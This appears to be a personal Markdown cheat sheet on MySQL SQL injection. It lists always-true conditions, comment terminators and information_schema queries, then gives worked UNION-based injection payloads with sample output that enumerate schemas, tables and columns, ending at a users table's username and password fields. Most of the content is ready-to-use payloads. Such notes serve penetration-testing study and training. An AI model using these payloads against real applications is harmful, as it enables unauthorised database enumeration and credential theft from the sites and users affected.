 # MySQL Injection

## External stuff

https://www.exploit-db.com/papers/13045/

## My own stuff

### char tables

https://github.com/justin-p/sec-stuff/blob/master/general%20info/ascii-table.md   


### Always True

```
1=1
a=a
```

### Escape/stop

```sql
# 
-- 
#--
```

### MySQL Verison

select version()

### information Schema

#### Table names

SELECT table_schema,table_name FROM information_Schema.tables

SELECT CONCAT(table_schema,table_name) FROM information_Schema.tables

SELECT CONCAT(table_schema,char(58),table_name) FROM information_Schema.tables

#### Injection example 1

```sql
' union (select CONCAT(table_schema,char(58),table_name) from information_Schema.tables where 1=1 ORDER BY table_name LIMIT 0,1) #--
``` 

```text
dummymalex:dummyms 
```

```text
table_schema = dummymalex
table_name  = dummyms
```

#### Hide stuff we dont need

AND table_schema != 'information_schema'

#### Injection example 2

```sql
' union (select CONCAT(table_schema,char(58),table_name) from information_Schema.tables where 1=1 AND table_schema != 'information_schema' ORDER BY table_name LIMIT 0,1) #--
```
```
LIMIT 0,1
dummymalex:dummyms 
```

```
table_schema = dummymalex
table_name   = dummyms 
```

```	
LIMIT 1,1 
dummymalex:users 	
```

```
table_schema = dummymalex
table_name   = users
```


#### column_name

SELECT column_schema,column_name FROM information_Schema.columns

#### Injection Example 1

```
' union (select CONCAT(column_name) from information_Schema.columns where table_name='dummyms' LIMIT 0,1) #--
LIMIT 0,1
	ID
LIMIT 1,1
	dummyms
LIMIT 2,1
	description
```

#### Injection Example 2

```
' union (select CONCAT(column_name) from information_Schema.columns where table_name='users' LIMIT 0,1) #--
LIMIT 0,1
	ID
LIMIT 1,1
	username
LIMIT 2,1
	password
```